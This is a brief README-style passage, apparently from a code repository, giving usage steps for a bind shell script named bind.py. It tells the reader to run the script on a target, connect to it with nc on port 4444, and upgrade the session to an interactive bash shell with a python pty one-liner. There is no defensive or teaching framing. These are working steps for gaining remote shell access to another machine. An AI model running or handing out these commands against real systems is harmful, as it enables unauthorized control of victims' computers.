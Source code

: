 1. Start bind.py on the target.
2. Connect using nc to target 

bash'''
nc targetip 4444
'''
3.Run the fallowing command on terminal 

bash'''
python -c 'import pty; pty.spawn("/bin/bash")'
'''
